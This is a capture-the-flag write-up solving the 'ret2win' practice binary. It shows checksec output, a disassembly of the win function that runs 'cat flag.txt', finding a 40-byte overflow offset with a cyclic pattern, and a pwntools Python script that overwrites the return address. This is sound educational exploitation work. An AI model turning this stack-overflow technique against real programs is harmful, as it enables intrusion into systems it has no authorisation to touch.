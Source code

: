 First of all, use checksec to get some binary information
```shell
[marco@marco-pc Downloads]$ file ret2win
ret2win: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=a871295b6234edb261710bcc73a8c03e3c0f601d, not stripped
[marco@marco-pc Downloads]$ checksec --file=ret2win
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable  FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   77 Symbols     No	0		3	ret2win

```

The file is not stripped, so let's use objdump and gdb (with pwndbg) to get some information from symbol table
```shell
objdump -t ret2win
...
00000000004007b5 l     F .text	000000000000005c              pwnme
0000000000400811 l     F .text	0000000000000020              ret2win
...
```

There are 2 interesting functions:
- pwnme, which is called from main, print some strings and get an input;
- ret2win perfom a system comand "cat flag.txt"
```gdb
pwndbg> disassemble ret2win 
Dump of assembler code for function ret2win:
   0x0000000000400811 <+0>:	push   rbp
   0x0000000000400812 <+1>:	mov    rbp,rsp
   0x0000000000400815 <+4>:	mov    edi,0x4009e0
   0x000000000040081a <+9>:	mov    eax,0x0
   0x000000000040081f <+14>:	call   0x4005f0 <printf@plt>
   0x0000000000400824 <+19>:	mov    edi,0x4009fd
   0x0000000000400829 <+24>:	call   0x4005e0 <system@plt>
   0x000000000040082e <+29>:	nop
   0x000000000040082f <+30>:	pop    rbp
   0x0000000000400830 <+31>:	ret    
End of assembler dump.
pwndbg> x/s 0x4009fd
0x4009fd:	"/bin/cat flag.txt"
```

With a buffer overflow we can control the RIP and then we can jump in the ret2win funciton.
Let's find out how many bytes we need to fill until RIP
```gdb
pwndbg> cyclic 100
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa

...
For my first trick, I will attempt to fit 50 bytes of user input into 32 bytes of stack buffer;
What could possibly go wrong?
You there madam, may I have your input please? And don't worry about null bytes, we're using fgets!

> aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa

Program received signal SIGSEGV, Segmentation fault.
...

RBP  0x6161616a61616169 ('iaaajaaa')

...

pwndbg> cyclic -l 'iaaa'
32

...
```

32 byte to RBP ( +8 to RIP = 40 ). Final exploit:
```python
#!/usr/bin/python3

import struct
from pwn import *

ret2win_addr = 0x0000000000400811

shellcode = ("A"*40).encode()
shellcode += struct.pack("<Q", ret2win_addr)
 
p = process('./ret2win')
 
p.recvuntil('>')
p.sendline(shellcode)
print(p.recvall())
```

